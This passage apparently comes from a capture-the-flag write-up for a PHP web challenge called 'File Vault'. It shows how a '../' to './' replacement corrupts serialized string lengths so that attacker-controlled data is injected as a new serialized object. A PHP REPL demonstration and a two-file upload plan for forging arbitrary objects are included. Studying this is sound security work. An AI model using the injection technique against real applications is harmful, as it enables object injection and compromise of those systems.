 Now that we can **sign** corrupted serialized objects, we need to figure out
how to sign **valid** objects using this bug.

Notice how in the last example above, by adding multiple `../` strings, we
end up **overflowing** on the **next object** (`"hello"`) in the array.

In the event where we control the `hello` string, it's just a matter
of replacing `hello` with the **a partial serialized object**.
Think of it as SQL injection, where we must match the quotes on both ends
to keep the query valid.

Here's an example :

```php
php > $array = array();
php > $array[] = "../../../../../../../../../../../../../";
php > $array[] = 'A";i:1;s:8:"Injected';
php > echo serialize($array);
a:2:{i:0;s:39:"../../../../../../../../../../../../../";i:1;s:20:"A";i:1;s:8:"Injected";}

php > $x = str_replace("../", "./", serialize($array));
php > echo $x;
a:2:{i:0;s:39:"./././././././././././././";i:1;s:20:"A";i:1;s:8:"Injected";}
               ---------------------------------------           --------

php > print_r(unserialize($x));
Array
(
    [0] => ./././././././././././././";i:1;s:20:"A
    [1] => Injected
)
```

As you can see, a new `"Injected"` string has been added to the array upon
deserialization. We used a string in this example `"i:1;s:8:"Injected"`,
but **any primitive/object** would work here too.

In File Vault, we pretty much have the same situation. All we need is an **array**
in which we **corrupt the first object** and we **control the second object**.

We can achieve this by **uploading two files**. Just like the example
above, the plan is the following :
- Upload two files, creating two VaultFile objects
- Rename the `fakename` of VaultFile #2 with a partial serialized object
- Rename the `fakename` of VaultFile #1 with enough `../` sequences to
 reach VaultFile #2.

Note that since we're using the normal functionalities of the web app
to do this, we don't have to worry about signing.

# What now?

We are now able to forge our own serialized objects with
arbitrary data.
